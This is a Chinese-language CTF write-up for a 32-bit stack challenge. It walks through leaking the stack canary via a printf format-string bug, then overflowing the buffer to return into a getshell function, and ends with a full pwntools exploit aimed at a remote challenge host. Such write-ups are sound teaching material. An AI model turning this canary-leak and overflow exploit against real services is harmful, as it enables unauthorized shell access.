

# stack wp

## 检查保护

``` bash
/data/project/ctf-repo/pwn/iscc2026/stack master*
❯ pwn checksec --file=attachment-5
[*] '/data/project/ctf-repo/pwn/iscc2026/stack/attachment-5'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

开了 canary,看来本题主要是要泄漏 canary。  

ida 分析程序：  

从字符串表的 /bin/sh 溯源找到 getshell() 函数，幸好没有 PIE 保护。  

main 进到 vuln 发现两次的字符串漏洞可以使用：
```c
  for ( i = 0; i <= 1; ++i )
  {
    read(0, buf, 0x200u);
    printf(buf);
  }
```
第一次泄漏 canary ，第二次栈溢出到 getshell 即可。  

先一波 %p 找到 printf 偏移量：  

``` python
from pwn import *

io = process("./attachment-5")
payload = b"AAAA" + b"%p " * 20
io.sendline(payload)

io.interactive()
```




偏移量是 6 ，从 ida的栈表发现 buf 在栈 -0x70 上，canary 在 -0xc。  

所以偏移量是 (0x70-0xc)/4 得到 25。  
加上前面偏移量得 31。所以 `%31$p` 可以得到 canary。  

将该值保存下来，第二轮直接栈覆盖，然后把  return address 改成 getshell。  

不过因为栈对齐缘故，要往下偏移一点：  

``` asm
.text:080491C6                 push    ebp
.text:080491C7                 mov     ebp, esp
.text:080491C9                 sub     esp, 8
.text:080491CC                 sub     esp, 0Ch
.text:080491CF                 push    offset command  ; "/bin/sh"
.text:080491D4                 call    _system
.text:080491D9                 add     esp, 10h
.text:080491DC                 nop
.text:080491DD                 leave
.text:080491DE                 retn
.text:080491DE ; } // starts at 80491C6
.text:080491DE getshell        endp
```

最终选择 `sub esp, 8` 处。  

完整 exp:
``` python
from pwn import *

context.gdb_binary = "/usr/local/bin/pwndbg"

getshell_addr = 0x080491C9

#p = process("./attachment-5")
p = connect("39.96.193.120", 10004)
p.recvuntil("Hello Hacker!")
p.sendline(b'%31$p')
p.recvuntil(b"0x")
can = p.recvline()
print(can)
canary = int(can, 16)

payload = b'A' * 100
payload += p32(canary)
payload += b'A' * 0xc
payload += p32(getshell_addr)
#gdb.attach(p)
p.sendline(payload)

p.interactive()
```


